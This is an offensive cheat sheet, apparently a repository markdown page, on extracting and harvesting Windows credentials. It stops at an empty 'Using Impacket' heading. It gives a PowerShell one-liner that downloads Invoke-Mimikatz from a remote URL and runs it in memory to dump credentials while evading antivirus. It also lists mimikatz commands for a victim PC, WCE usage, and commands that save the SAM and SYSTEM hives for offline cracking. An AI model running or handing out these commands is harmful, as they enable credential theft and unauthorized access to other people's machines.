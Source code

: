 # Passwords Extraction and Credential Harvesting

**Using Mimikatz:**
"Mimikatz is an open-source application that allows users to view and save authentication credentials like Kerberos tickets. Benjamin Delpy continues to lead Mimikatz developments, so the toolset works with the current release of Windows and includes the most up-to-date attacks."

A quick one-liner that uses PowerShell to load mimikatz to memory and bypass anti-virus (sometimes...)

```
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1>');Invoke-Mimikatz -DumpCreds" > C:\\Users\\%username\\Downloads\\pass.txt
```

Another why is to upload mimikatz to the victims PC and run mimikatz.exe as admin (we need to PE before that..)
By using the following commands:

```
privilege::debug
```

```
log {LOGFILENAME}
```

```
sekurlsa::logonpasswords
```

---

Using WCE:

```
- Download WCE:
	- <https://www.ampliasecurity.com/research/wce_v1_42beta_x64.zip>
- Run as administrator:
	- Wce.exe -w
```

---

Using Samdump2:
On the victim PC run the following commands with high privileges:

```
- Sam and System extract:
	- reg save hklm\\sam c:\\sam
	- reg save hklm\\system c:\\system
```

On our Linux machine run the following command on the files that we got from the victim PC:

```
- Using samdump2:
	- samdump2 system sam
```

---

Using Impacket:
